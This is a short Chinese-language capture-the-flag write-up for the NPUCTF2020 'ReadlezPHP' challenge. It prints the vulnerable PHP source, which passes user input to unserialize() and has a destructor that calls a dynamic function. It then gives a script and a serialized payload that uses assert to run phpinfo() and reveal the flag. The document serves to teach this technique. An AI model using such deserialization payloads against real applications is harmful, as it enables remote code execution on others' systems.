


# [NPUCTF2020]ReadlezPHP

## 知识点

`php反序列化`

## 解题

首先给出网页


没有发现什么东西，查看一下源码后发现了路径`time.php?source`



进入后给出网站源码

```php
<?php
#error_reporting(0);
class HelloPhp
{
    public $a;
    public $b;
    public function __construct(){
        $this->a = "Y-m-d h:i:s";
        $this->b = "date";
    }
    public function __destruct(){
        $a = $this->a;
        $b = $this->b;
        echo $b($a);
    }
}
$c = new HelloPhp;

if(isset($_GET['source']))
{
    highlight_file(__FILE__);
    die(0);
}

@$ppp = unserialize($_GET["data"]);


2024-02-15 03:04:44
```

发现是反序列化，尝试先执行`phpinfo`看一下

```php
<?php
class HelloPhp
{
    public $a;
    public $b;
}

$c = new HelloPhp();
$c -> a = 'phpinfo();';
$c -> b = 'assert';

echo serialize($c);	// O:8:"HelloPhp":2:{s:1:"a";s:10:"phpinfo();";s:1:"b";s:6:"assert";}
```

结果`flag`直接就在`phpinfo`里

